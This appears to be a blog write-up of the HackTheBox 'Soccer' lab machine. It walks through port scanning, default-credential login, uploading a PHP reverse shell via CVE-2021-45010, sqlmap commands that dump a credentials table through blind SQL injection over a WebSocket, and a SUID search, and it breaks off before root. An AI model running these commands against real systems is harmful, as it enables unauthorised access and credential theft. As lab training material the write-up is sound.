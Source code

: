 ```yaml
---
title: Soccer
author: siresire
date: 2024-04-22 18:10:00 +0800
categories: [Hackthebox,Linux Fundamentals,Easy]
tags: [sqlmap,LFI,CVE,]
render_with_liquid: false
---
```


# Machine abstract

This Linux machine presents a multi-layered challenge ripe for exploration. Initial access is granted through a static web page, concealing a hidden web server login accessed with default credentials. Exploiting this vulnerability (CVE-2021-45010) facilitates the upload of a malicious PHP script, paving the way for a reverse shell connection to the machine.

Once inside, investigation uncovers a virtual host configuration within Nginx, pointing towards a Node.js application. Upon creating an account within this application, a unique ticket number is issued. Attempting to validate this ticket triggers a blind SQL injection vulnerability, ultimately yielding SSH credentials for an additional user on the system.

To further escalate privileges, a file running as root is discovered, offering a potential pathway for privilege escalation.


## Skills Learned
- Identifying blind SQL Injections
- Leveraging SUID binaries to escalate privileges

# Enumeration
## Nmap

Scanning the target with nmap, there were 3 ports opened

```nmap
┌──(root㉿kali)-[/home/sire/Documents/CTFs/HackTheBox/Soccer]
└─# cat nmap.scans  | grep open
22/tcp   open  ssh             syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http            syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail? syn-ack ttl 63
```

## HPPT Server(port 80)

Browsing to port 80 redirects us to the domain soccer.htb .

![Alt text](/assets/img/htb/soccer/s1.png)

I proceeded adding the domain to `/etc/hosts`

```bash
echo "10.10.11.194 soccer.htb" | sudo tee -a /etc/hosts
```

The web just appeared to be a static webpage with default web funcitonality.I Proceed with scanning for hidden directories with `gobuster`

```bash
gobuster dir -u http://dev.stocker.htb  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -o gobuster.scans

```
```zsh
┌──(root㉿kali)-[/home/sire/Documents/CTFs/HackTheBox/Soccer]
└─# cat gobuster.out 
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```
The subdirectory had a login page with a link below it
![Alt text](/assets/img/htb/soccer/s2.png)

Clicking the link took me to a [github project](https://github.com/prasathmani/tinyfilemanager) where I found default credentials for the login page 
![Alt text](/assets/img/htb/soccer/s3.png)

After logging in the application revealed the service's version, namely 2.4.3, Tiny File Manager <= 2.4.6 allows remote attackers with valid user accounts to upload malicious PHP files to the webroot and achieve code execution on the target server, which is also known as CVE-2021-45010 .

![Alt text](/assets/img/htb/soccer/s4.png)

Pocking around the application , I found a directory owned by root but we had a permission to write to it `uploads`

![Alt text](/assets/img/htb/soccer/s5.png)

So I uploaded a php [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and listen on port 4444 

![Alt text](/assets/img/htb/soccer/s6.png)

And I had a connection back as www-data .

![Alt text](/assets/img/htb/soccer/s7.png)


# Foothold
## HTTP 
Enumerationing the webserver on `www`, there was nothing interesting but nginx was running so checking configuration of the nginx server, there was a vhost configuration `soc-player.soccer.htb` and added to the `/etc/hosts`

![Alt text](/assets/img/htb/soccer/s8.png)


The site appears similar in form to the initial static page, however, we see that it has some added functionality in the form of a Login and Signup button. Attempting to log in with typical admin credentials returns no results, so we use a newly registered account to log into the site, revealing the /check page.

![Alt text](/assets/img/htb/soccer/s9.png)

We are provided with a ticket id, as well as the possibility to check whether a given ticket is valid or not.

![Alt text](/assets/img/htb/soccer/s10.png)

The ticket validating was macking an API call to poty 9091 websocke as you can see in the developer tab `ws://soc-player.soccer.htb:9091/`

# Blind SQLi

The vulnerability we found is also known as a blind SQL injection, as we can inject SQL logic, but cannot directly see or access any of our queries' output.sqlmap can automate this task for us as it can directly access the WebSocket service on port 9091 , given that we provide it with the necessary parameters for its queries.

so with the command `sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --batch --threads 10 --dbs`, I was able to see 5 tables of the database. 

![Alt text](/assets/img/htb/soccer/s11.png)

database `soccer_db` seemed odd so I decided to enumerate it and dump all the contents wiht the command
`sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --batch --threads 10 --dbs -D "soccer_db" --dump`

and there we have it , creds for `player` and I ssh into the machine
```mysql
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------+----------------------+
| id   | email             | username | password             |
+------+-------------------+----------+----------------------+
| 1324 | player@player.htb | player   | PlayerOftheMatch2022 |
+------+-------------------+----------+----------------------+
```

![Alt text](/assets/img/htb/soccer/s12.png)

# Privilege Escalation

Looking for files with the SUID bit set, we stumble upon the /usr/bin/doas binary, which is an alternative to the more commonly used sudo binary:

```bash 
find / -type f -perm -4000 2>/dev/null
```

![Alt text](/assets/img/htb/soccer/s13.png)



A quick search for doas reveals that its configuration file can be found at /usr/local/etc/doas.conf , which in turn reveals that the player user can run dstat with elevated privileges, as the binary is owned by root


![Alt text](/assets/img/htb/soccer/s14.png)

To be Rooted later ... 

<!-- ![Alt text](/assets/img/htb/soccer/s15.png) -->

## 🐞 CVE 2021-45010